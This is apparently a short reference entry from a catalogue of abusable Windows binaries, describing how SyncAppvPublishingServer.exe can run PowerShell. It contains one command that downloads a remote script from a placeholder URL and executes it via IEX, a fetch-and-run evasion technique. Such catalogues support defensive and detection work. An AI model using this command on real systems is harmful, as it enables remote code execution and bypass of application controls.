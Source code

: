 ## SyncAppvPublishingServer.exe
* Functions: Execute
```

SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
Example command on how inject Powershell code into the process
```
   
* Resources:   
  * https://twitter.com/monoxgas/status/895045566090010624
   
* Full path:   
  * C:\Windows\System32\SyncAppvPublishingServer.exe
   
* Notes: Thanks to Nick Landers - @monoxgas  
   
